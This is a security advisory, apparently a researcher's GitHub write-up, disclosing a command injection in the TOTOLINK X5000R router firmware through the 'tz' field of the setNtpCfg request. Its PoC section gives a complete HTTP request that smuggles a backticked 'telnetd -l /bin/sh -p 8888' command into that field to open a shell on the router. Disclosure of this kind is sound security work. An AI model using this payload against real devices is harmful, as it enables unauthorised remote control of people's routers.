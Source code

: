 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/218/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `setNtpCfg` function,`tz` is directly passed by the attacker, so we can control the `tz` to attack the OS.

As you can see here, in `sub_4230A4` function, the input has not been checked. And then, call the function `nvram_set ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

This step is mainly for inter-process communication, the vulnerability will be triggered in another binary file.

In `rc` binary:

In `handle_notifications` function

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

In `libshared.so` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 



## PoC

We set `tz` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 133
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/time.html?time=1645515537351
Cookie: SESSION_ID=2:1645515537:2

{"tz":"`telnetd -l /bin/sh -p 8888`","enable":"1","server":"pool.ntp.org*cn.pool.ntp.org*europe.pool.ntp.org","topicurl":"setNtpCfg"}
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result
Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

